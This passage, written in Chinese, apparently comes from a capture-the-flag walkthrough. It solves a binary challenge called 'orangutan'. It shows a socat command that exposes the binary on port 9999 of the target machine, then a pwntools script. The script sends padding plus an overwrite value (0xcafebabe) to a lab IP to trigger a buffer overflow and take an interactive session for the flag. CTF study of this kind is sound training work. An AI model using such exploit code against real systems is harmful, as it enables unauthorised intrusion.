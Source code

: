 哦，对，毕竟是在`kali`执行的，这里的可以输入，表示应该在靶机运行这个，或者还有其他的东西没有看到。那么需要指定这个二进制文件运行在哪个端口

可以借助`nc`或者`socat`，不过经测试，使用`nc`不行，无法触发，说明`nc`确实是小巧又简单，便捷。功能上确实比`socat`少了一些

```shell
#在靶机运行，使用socat
socat TCP-LISTEN:9999,fork EXEC:./orangutan
```

直接输入有问题，所以只能编写`python`代码再测试，可能是没有交互的原因？

```python
from pwn import *
a=b'aaaaaaaaaaaaaaaaaaaaaaaa'
b=b'\xbe\xba\xfe\xca'
payload=a+b
connect=remote('192.168.10.12',9999)
#根据执行文件的代码，会输出两行数据的，所以这里等待两行数据后再发送数据
print(connect.recvline())
print(connect.recvline())
connect.sendline(payload)
connect.interactive()
```

在`kali`中执行上面的代码

![](./pic/72.jpg)

获取最终`flag`
